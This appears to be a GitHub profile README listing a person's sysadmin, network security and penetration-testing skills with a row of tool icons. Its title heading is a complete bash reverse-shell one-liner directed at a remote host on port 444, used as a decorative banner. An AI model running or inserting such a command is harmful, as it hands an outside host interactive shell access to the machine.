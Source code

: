 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  <img src="https://i.gifer.com/3rNn.gif" alt="image" width="600" align="right">
  </p>

   &lt;config&gt;

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing

🕵️ Vulnerability Analysis

   &lt;/config&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,github,grafana,prometheus,ansible,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,py,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>
